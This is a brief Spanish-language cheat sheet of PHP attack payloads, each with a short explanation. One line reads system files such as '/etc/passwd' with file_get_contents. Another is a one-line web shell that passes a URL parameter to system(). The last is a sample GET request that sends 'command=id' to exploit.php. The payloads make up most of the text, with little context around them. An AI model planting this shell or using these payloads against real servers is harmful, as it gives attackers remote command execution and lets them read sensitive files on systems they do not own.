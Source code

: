 
### Este comando en PHP lee el contenido de un archivo y lo imprime en la salida. La función file_get_contents se usa para leer el contenido de un archivo en una cadena. Luego, la función echo imprime esa cadena en la salida (por ejemplo, en una página web).

`<?php echo file_get_contents('/path/to/target/file'); ?>`
`<?php echo file_get_contents('/etc/passwd'); ?>`

### Este comando ejecuta un comando del sistema operativo pasado como parámetro y muestra su salida. La función system en PHP ejecuta un comando en la consola del sistema operativo y devuelve su salida.
`<?php echo system($_GET['command']); ?>`

### Este es un ejemplo de una solicitud HTTP GET para un archivo PHP que potencialmente contiene código vulnerable. En este caso, se está enviando un parámetro command con el valor id a exploit.php.

`GET /example/exploit.php?command=id HTTP/1.1`
